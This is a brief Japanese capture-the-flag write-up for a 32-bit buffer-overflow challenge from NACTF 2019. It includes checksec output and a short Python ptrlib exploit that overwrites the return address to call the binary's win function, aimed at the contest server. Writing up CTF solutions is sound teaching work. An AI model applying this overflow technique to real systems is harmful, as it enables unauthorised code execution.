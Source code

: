 # [pwn 100pts] BufferOverflow #0 - Network Academia CTF 2019
32ビットバイナリで、全部無効です。
```
$ checksec -f bufover-0
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   72 Symbols     No       0               6       bufover-0
```

ret2winするだけです。
```python
from ptrlib import *

elf = ELF("./bufover-0")
#sock = Process("./bufover-0")
sock = Socket("shell.2019.nactf.com", 31475)
payload = b'A' * 0x1c
payload += p32(elf.symbol("win"))
sock.sendlineafter(">", payload)

sock.interactive()
```

# 感想
簡単ですね。
